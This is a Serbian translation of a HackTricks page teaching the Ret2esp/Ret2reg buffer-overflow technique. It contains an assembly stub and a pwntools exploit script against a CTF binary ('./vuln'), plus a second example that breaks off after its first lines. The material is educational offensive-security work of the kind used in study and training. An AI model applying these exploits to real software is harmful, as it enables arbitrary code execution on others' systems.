 # Ret2esp / Ret2reg

{{#include ../../banners/hacktricks-training.md}}

## **Ret2esp**

**Pošto ESP (Stack Pointer) uvek pokazuje na vrh steka**, ova tehnika uključuje zamenu EIP (Instruction Pointer) sa adresom **`jmp esp`** ili **`call esp`** instrukcije. Na taj način, shellcode se postavlja odmah nakon prepisanog EIP-a. Kada se izvrši `ret` instrukcija, ESP pokazuje na sledeću adresu, tačno gde je shellcode smešten.

Ako **Address Space Layout Randomization (ASLR)** nije omogućen u Windows-u ili Linux-u, moguće je koristiti `jmp esp` ili `call esp` instrukcije koje se nalaze u deljenim bibliotekama. Međutim, sa aktivnim [**ASLR**](../common-binary-protections-and-bypasses/aslr/), možda će biti potrebno da se potraže ove instrukcije unutar same ranjive aplikacije (i možda će biti potrebno da se savlada [**PIE**](../common-binary-protections-and-bypasses/pie/)).

Štaviše, mogućnost postavljanja shellcode-a **posle korupcije EIP-a**, umesto u sredini steka, osigurava da bilo koje `push` ili `pop` instrukcije izvršene tokom rada funkcije ne ometaju shellcode. Ova ometanja mogla bi se desiti ako bi shellcode bio postavljen u sredini steka funkcije.

### Nedostatak prostora

Ako vam nedostaje prostora da pišete nakon prepisivanja RIP-a (možda samo nekoliko bajtova), napišite inicijalni **`jmp`** shellcode kao:
```armasm
sub rsp, 0x30
jmp rsp
```
I napišite shellcode rano na steku.

### Primer

Možete pronaći primer ove tehnike u [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp) sa konačnim eksploatom kao:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
sub rsp, 10;
jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```
Možete videti još jedan primer ove tehnike u [https://guyinatuxedo.github.io/17-stack_pivot/xctf16_b0verflow/index.html](https://guyinatuxedo.github.io/17-stack_pivot/xctf16_b0verflow/index.html). Postoji buffer overflow bez omogućene NX, koristi se gadget da **smanji adresu `$esp`** i zatim `jmp esp;` da skoči na shellcode:
```python
# From https://guyinatuxedo.github.io/17-stack_pivot/xctf16_b0verflow/index.html
from pwn import *

# Establish the target process
```